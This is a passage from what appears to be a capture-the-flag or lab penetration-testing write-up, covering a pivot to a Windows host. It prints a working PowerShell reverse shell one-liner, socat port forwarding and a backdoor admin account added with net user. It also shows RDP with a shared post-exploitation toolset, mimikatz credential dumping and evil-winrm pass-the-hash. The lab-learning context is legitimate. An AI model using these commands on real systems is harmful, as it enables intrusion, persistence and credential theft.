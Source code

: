 100% packet loss

We gonna do the port forwarding and catch the shell on .200 which redirects back to our machine. Gotta open up a port first tho

```
firewall-cmd --zone=public --add-port 15555/tcp
./socatB tcp-l:15555,fork,reuseaddr tcp:10.50.85.244:1555 &
```

This is on the .200 machine and 15555 is the port we open up on it, it is forwarded to 1555 on our local machine

Running the powershell reverse shell one-line =r and URL encoding (this is a web exploit after all) we get the reverse shell

`powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('IP',PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

We are logged in as admin, sweet.\
To get a stronger foothold, we can create our own admin account and add it to admin user group and RDP group as well

```
net user USERNAME PASSWORD /add
net localgroup Administrators USERNAME /add
net localgroup "Remote Management Users" USERNAME /add
```

Use evil-winrm for CLI or RDP for GUI

`xfreerdp /v:IP /u:USERNAME /p:PASSWORD +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share`

The drive flag allows us to load a shared drive from our local machine, that directory has a lot of sweet Windows Postex tools, one of which is mimikatz. This share is accessed by using tsclient

`\tsclient\share\mimikatz\x64\mimikatz.exe`

Now we cook, get admin credentials so we can login as Admin from now on

### Thomas' PC

`upload LOCAL_FILEPATH REMOTE_FILEPATH` & `download REMOTE_FILEPATH LOCAL_FILEPATH` is super helpful to transfer files when interacting with a Windows system.

If you want to transfer from target to local, do use an SMB server from local, connect to it and safe

`evil-winrm -u Administrator -H HASH -i IP -s /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/`

-s here works like share flag in xfreerdp

Invoke-Portscan.ps1 is used to do recon for our .100 machine (PC), don't forget we are still on the git server only.
